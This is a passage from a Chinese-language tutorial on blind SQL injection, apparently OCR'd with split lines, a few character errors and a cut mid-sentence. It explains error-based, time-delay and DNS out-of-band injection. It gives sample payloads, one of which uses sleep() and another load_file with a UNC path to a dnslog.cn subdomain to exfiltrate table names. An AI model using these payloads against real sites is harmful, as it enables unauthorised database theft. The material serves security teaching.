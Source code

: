 这时我们可以利用上述payload，判断密码首字母的ASCII码是否大于

m
的ASCII码。如果大于，那么就会运行

1/0
，这会引起除零错误，否则就不会引起错误。类似于布尔注入的方法，我们可以通过不断地尝试来获取到

Password
的值。

### 时间盲注

我们顺着报错注入的例子，继续深入思考。如果应用系统具备很好的错误处理逻辑，这样在响应请求时不会产生异常，报错注入就会失效。这种情况，我们可以尝试时间盲注（又称为时延注入）。

这种攻击方案的底层逻辑是，攻击者通过控制注入的参数，能够获得服务器的响应延时控制权。这种注入方式与数据管理系统相关，具体实施需要确认数据管理系统的信息。如下为一个时间盲注示例：
SELECT /* FROM products WHERE id_product=$id_product /# http://www.example.com/product.php?id_product=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--

在这个例子中，攻击者先检查MySQL的版本是否为5，如果判断为真，则让服务器延时十秒返回结果。

### DNS带外注入

在盲注的情况下，假设应用程序是异步执行的，也就是说，应用程序需要在原始线程处理用户的请求，并同时在另一个线程使用跟踪cookie执行SQL查询，这样我们刚才提到的注入方法都会失效。这时如果我们想要成功进行注入，可以尝试使用DNS带外注入。

在了解DNS带外注入前，我们需要一点点前置知识，就是泛域名解析。那么什么是泛域名解析呢，其实很简单，就是/*.的所有域名解析到同一IP，举个例子，talentsec.cn指向了一个IP，在使用了泛域名解析技术的情况下，test.talentsec.cn也会指向同一个IP地址。

DNS带外注入，是使用不同通道检索数据的技术（例如，建立 HTTP 连接将结果发送到 Web 服务器等）。这个方法使用DBMS的功能，执行带外连接，并将注入查询的结果作为请求的一部分传递给攻击者。和报错注入类似，每个数据库管理系统有自己独有的功能函数，我们需要确认数据库管理系统的信息。下面就是一个DNS带外注入的示例：
SELECT /* FROM products WHERE id_product=$id_product /#http://www.example.com/product.php?id_product=10 and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security' limit 0,1),".afl3zg.dnslog.cn\\aa.txt")) --+

该

payload
使用了

loadfile
函数，该函数在这里可以通过

UNC
路径读取远程机器上的文件。它的参数是用

concat
函数拼接起来的

UNC
路径，由于

\
代表了转义的意思，所以实际拼接为

\\{query_result}.af13zg.dnslog.cn\aa.txt
，其中

{query_result}
为查询的结果，根据**泛域名解析原理**，该请求会被
